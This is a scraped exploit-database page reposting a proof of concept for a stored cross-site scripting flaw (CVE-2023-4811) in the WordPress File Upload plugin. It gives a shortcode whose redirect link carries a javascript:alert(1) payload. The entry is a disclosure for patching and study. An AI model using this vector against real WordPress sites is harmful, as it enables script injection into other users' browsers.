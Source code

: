 ```yaml
---
title: WordPress File Upload Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:177636&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-03-20
fetch_date: 2025-10-04T12:07:49.626471
---
```


# WordPress File Upload Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for WordPress File Upload Cross Site Scripting

2024-03-19 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:177636
Exploit Title: WordPress File Upload < 4.23.3 Stored XSS (CVE 2023-4811)
Date: 18 December 2023
Exploit Author: Faiyaz Ahmad
Vendor Homepage: https://wordpress.com/
Version: 4.23.3
CVE : CVE 2023-4811

Proof Of Concept:

1. Login to the wordpress account

2. Add the following shortcode to a post in "File Upload Plugin":

[wordpress_file_upload redirect="true" redirectlink="*javascript:alert(1)*"]

3. Upload any file on the resulting post.
4. After the upload completes, you will see the XSS alert in the browser.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)